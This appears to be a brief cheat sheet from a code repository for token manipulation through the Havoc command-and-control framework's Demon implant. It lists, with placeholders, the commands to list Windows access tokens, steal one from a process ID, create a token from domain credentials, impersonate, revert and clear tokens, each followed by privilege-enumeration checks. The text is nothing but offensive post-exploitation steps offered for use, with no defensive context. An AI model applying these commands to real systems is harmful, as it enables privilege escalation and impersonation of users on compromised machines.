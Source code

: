 # Havoc

## 01 - Enumerate Tokens

```
Demon » token list

Demon » token privs-get
```

## 02 - Steal Token

```
Demon » token steal <pid>
```

Enumerate current user with privileges.

```
Demon » token getuid

Demon » token privs-list
```

## 03 - Make Token

```
Demon » token make <DOMAIN>\<username> <password>
```

Enumerate current user with privileges.

```
Demon » token getuid

Demon » token privs-list
```

## 04 - Token Impersonation

```
Demon » token impersonate <token_ID>
```

Enumerate current user with privileges.

```
Demon » token getuid

Demon » token privs-list
```

## 05 - Revert Token

```
Demon » token revert
```

## 06 - Clear Tokens

```
Demon » token clear
```